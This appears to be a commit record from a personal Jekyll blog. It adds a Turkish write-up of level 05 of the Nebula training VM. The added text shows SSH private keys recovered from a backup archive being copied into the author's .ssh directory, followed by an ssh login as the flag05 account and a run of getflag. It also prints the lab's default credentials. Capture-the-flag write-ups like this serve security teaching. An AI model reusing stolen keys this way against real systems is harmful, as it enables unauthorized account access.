

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-28-nebula-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 919 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2018-02-28-nebula-writeup.md

```diff
--- a/_posts/2018-02-28-nebula-writeup.md
+++ b/_posts/2018-02-28-nebula-writeup.md
@@ -40,3 +40,51 @@ Yeterli izinlerimizin olmaması sebebiyle tar dosyasını bulunduğumuz yerde a
     .ssh/id_rsa
     .ssh/authorized_keys
 {% endraw %}
+flag05 kullanıcısının home dizininde bulunan .ssh dizini, tar dosyasından çıkan anahtarları kullanarak ssh bağlantı yapabileceğimiz fikrini veriyor.Ayrıca level05 kullanıcısının home dizinine baktığımızda halihazırda bir .ssh dizini olduğunu görüyoruz.
+Tar dosyasından çıkan anahtarların hangi kullanıcı tarafından oluşturulduğunu bilmediğimiz için .ssh dizini içerisindekilerin tamamını level05 kullanıcısının .ssh dizinine kopyalıyoruz.
+{% raw %}
+    level05@nebula:/tmp$ cp .ssh/* /home/level05/.ssh
+    level05@nebula:/tmp$ ssh flag05@nebula
+    The authenticity of host 'nebula (127.0.1.1)' can't be established.
+    ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
+    Are you sure you want to continue connecting (yes/no)? yes
+    Warning: Permanently added 'nebula' (ECDSA) to the list of known hosts.
+
+         _   __     __          __
+         / | / /__  / /_  __  __/ /___ _
+        /  |/ / _ \/ __ \/ / / / / __ `/
+      / /|  /  __/ /_/ / /_/ / / /_/ /
+      /_/ |_/\___/_.___/\__,_/_/\__,_/
+
+    exploit-exercises.com/nebula
+
+
+    For level descriptions, please see the above URL.
+
+    To log in, use the username of "levelXX" and password "levelXX", where
+    XX is the level number.
+
+    Currently there are 20 levels (00 - 19).
+
+
+    Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)
+
+    * Documentation:  https://help.ubuntu.com/
+    Your Ubuntu release is not supported anymore.
+    For upgrade information, please visit:
+    http://www.ubuntu.com/releaseendoflife
+
+    New release '12.04.3 LTS' available.
+    Run 'do-release-upgrade' to upgrade to it.
+
+
+    The programs included with the Ubuntu system are free software;
+    the exact distribution terms for each program are described in the
+    individual files in /usr/share/doc/*/copyright.
+
+    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
+    applicable law.
+
+    flag05@nebula:~$ /bin/getflag
+    You have successfully executed getflag on a target account
+{% endraw %}
```
